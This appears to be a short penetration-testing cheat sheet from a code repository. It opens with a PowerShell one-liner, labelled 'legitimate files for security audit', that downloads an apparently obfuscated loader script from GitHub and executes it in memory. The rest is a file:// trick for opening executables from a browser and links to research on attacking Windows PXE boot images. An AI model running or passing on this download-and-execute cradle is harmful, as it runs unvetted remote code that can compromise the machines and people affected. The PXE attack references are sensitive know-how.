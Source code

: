 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

*******

# CYBER CHEAT SHEET

### DIVERS
*******
File access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

### RECONNAISSANCE - ENUMERATION
*******

Todo

### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
